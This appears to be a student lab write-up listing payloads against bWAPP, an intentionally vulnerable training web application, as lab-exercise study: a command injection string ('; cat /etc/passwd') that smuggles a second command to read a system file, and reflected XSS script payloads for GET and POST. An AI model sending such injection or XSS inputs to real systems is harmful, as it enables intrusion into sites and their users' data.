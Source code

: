 # bWAPP - Exploits
<a href="https://github.com/NicolaiKuertoes/swa-writeups/tree/master/swa_prakt6#swa---praktikum-6">&larr; zurück</a>
### (1) OS Command Injection (low)
```bash
; cat /etc/passwd
```

### (2) OS Command Injection-Blind (low)
```bash
not yet implemented
```

### (3) Cross-Site Scripting - Reflected (GET) (low)
```JS
// Input 1:
"Hacker"
// Input 2:
"<script>alert("XSS")</script>"
// Payload:
"?firstname=Hacker&lastname=<script>alert%28"XSS"%29<%2Fscript>&form=submit"
```

### (4) Cross-Site Scripting - Reflected (POST) (low)
```JS
// Input 1:
"Hacker"
// Input 2:
"<script>alert("XSS")</script>"
// Payload:
"?firstname=Hacker&lastname=<script>alert%28"XSS"%29<%2Fscript>&form=submit"
```
### To be continued...
